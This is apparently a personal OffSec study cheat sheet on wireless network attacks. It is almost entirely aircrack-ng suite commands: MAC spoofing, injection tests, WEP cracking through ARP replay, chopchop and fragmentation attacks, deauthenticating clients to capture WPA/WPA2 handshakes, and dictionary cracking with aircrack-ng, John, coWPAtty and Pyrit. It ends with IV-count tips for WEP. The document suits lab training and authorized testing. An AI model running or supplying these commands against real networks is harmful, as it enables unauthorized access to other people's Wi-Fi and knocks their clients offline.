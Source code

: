 ```yaml
---
title: Wireless Network Attacks
tags:
  - OffSec
  - Wireless
  - Attacks
date: 2020-06-29
---
```



# Wireless

### MAC

```shell
root@bt:~# macchanger --show <interface name>
Current MAC: 00:f1:40:93:00:f5 (unknown)

#  Set the MAC XX:XX:XX:XX:XX:XX
macchanger --mac=XX:XX:XX:XX:XX:XX mon0
```

### Open the Monitor Mode

```shell
root@bt:~# airmon-ng check kill && ifconfig wlan1 down && iwconfig wlan1 mode monitor && ifconfig wlan1 up && airmon-ng start wlan1 3
root@bt:~# airmon-ng check kill && ifconfig mon0 down && iwconfig mon0 mode monitor && ifconfig mon0 up

iwconfig <interface name> mode monitor channel <channel number>
```

## Injection Test

#### Basic Injection Test

(Single Card)

```shell
root@bt:~# aireplay-ng -9 <interface name>
root@bt:~# aireplay-ng -9 mon0
```

#### Injection Test for Hidden or Specific SSID

```shell
root@bt:~# aireplay-ng -9 -e <ESSID> -a <AP MAC> <interface name>
root@bt:~# aireplay-ng -9 -e 'STAGE TEST' -a 08:57:00:64:2E:B0 mon0
```

#### Card-to-Cad (Attack) Injection Test

(Two Cards)

```shell
root@bt:~# aireplay-ng -9 -i <input interface> <interface name>
```

# Wired Equivalent Privacy (WEP)

## Open Authentication

### Cracking WEP with Connected Clients

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
aircrack-ng <capture>
```

### Cracking WEP via a Client

```
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface>
aircrack-ng -z <capture>
```

### Cracking Clientless WEP Networks

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>

# Run attack 4, the KoreK chopchop attack (or attack 5, the fragmentation attack):
aireplay-ng -4 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -5 -b <AP MAC> -h <Your MAC> <interface> (Need Card Support)

packetforge-ng -0 -a <AP MAC> -h <Your MAC> -l <Source IP> -k <Dest IP> -y
<xor filename> -w <output filename>
# packetforge-ng -0 -a 08:57:00:64:2E:B0 -h 00:f1:40:93:00:f5 -l 192.168.1.113 -k 192.168.1.255 -y replay_dec-0705-020358.xor -w arp-korek

aireplay-ng -2 -r <packet filename> <interface>
aircrack-ng <capture>
```

## Shared Key Authentication

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

aireplay-ng -1 0 -e <ESSID> -y <keystream file> -a <AP MAC> -h <Your MAC>
<interface>
# aireplay-ng -1 6000 -e 'STAGE TEST' -y wepshared-01-08-57-00-64-2E-B0.xor -a 08:57:00:64:2E:B0 -h 94:0c:6d:7c:ca:73 mon0

aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
aircrack-ng <capture>
```

# WPA/WPA2

## Cracking WPA/WPA2 PSK with Aircrack-ng

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a<AP MAC> -c <Client MAC> <interface>
# dictionary mode
aircrack-ng -w <wordlist> <capture>

# Airolib-ng database
aircrack-ng -r <db name> <capture>
```

## Cracking WPA with JTR and Aircrack-ng

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <ESSID> -w - <capture>
```

## Cracking WPA with coWPAtty

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

genpmk -f <wordlist> -d <hashes filename> -s <ESSID>
genpmk -f /pentest/passwords/john/password.lst -d wifuhashes -s 'STAGE TEST WPA'

cowpatty -r <capture> -d <hashes filename> -2 -s <ESSID>
```

## Cracking WPA with Pyrit

```shell
airmon-ng start <interface> <AP channel>
pyrit -r <interface> -o <capture> stripLive
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

# dictionary mode
pyrit -r <capture> -i <wordlist> -b <AP MAC> attack_passthrough

# database mode
pyrit -i <wordlist> import_passwords
pyrit -e <ESSID> create_essid
pyrit batch
pyrit -r <capture> -b <AP MAC> attack_db
```

## Airolib-ng

```shell
echo wifu > essid.txt
airolib-ng <db name> --import essid <essid filename>
airolib-ng <db name> --import passwd <wordlist>
airolib-ng <db name> --clean all
airolib-ng <db name> --stats
airolib-ng <db name> --batch
airolib-ng <db name> --verify all
aircrack-ng -r <db name> <capture>
```

# General Approach to Cracking WEP Keys

- Typically, you need 250000 or more unique IVs for 64-bit keys and 1.5 million or more for 128-bit keys.

- Generally speaking, don’t try to crack the WEP key until you have at least 100000 IVs.

- Start by trying 64-bit keys with `aircrack-ng -n 64 <capture filename>`. If 64-bit WEP is used, it can usually be cracked in less than 5 minutes and usually less than 60 seconds with relatively few IVs. If the 64-bit key is not found in 5 minutes, restart Aircrack in generic mode with `aircrack-ng <capture filename>` and then, at each 100000 IVs mark, retry `aircrack-ng -n 64 <capture filename>` for 5 minutes.

- Once you hit 600000 IVs, switch to testing 128-bit keys.

- Once you hit 2 million IVs, try changing the fudge factor to ‘-f 4’ and run it for at least 30 minutes and up to one hour. Retry, increasing the fudge factor by adding 4 to it each time. You should also try increasing the fudge factor whenever Aircrack-ng stops after having tried all possible keys.

- All the while, keep collecting data. Remember the golden rule: “the more IVs, the better”. Also, check the next section on how to determine which options to use as these can significantly speed up cracking the WEP key. For example, if the key is entirely numeric, then it can take as few as 50000 IVs to crack a 64-bit key with the ‘-t’ parameter versus 200000 IVs without it. So if you have a hunch about the WEP key, it is worth trying a few variations.

- The number of unique IVs that you need varies drastically depending on a number of factors. You can consider the following as a rough guideline:
    ○ FMS/KoreK 64-bit—250,000 Unique IVs
    ○ FMS/KoreK 128-bit—1,500,000 Unique IVs
    ○ PTW 64-bit—20,000 packets
    ○ PTW 128-bit—40,000-85,000 packets

    

|        Encryption         |    Password    |  Ivs  |
| :-----------------------: | :------------: | :---: |
| WEP - Open Authentication | AA:BB:CC:DD:EE | 16875 |
|                           |                |       |
|                           |                |       |

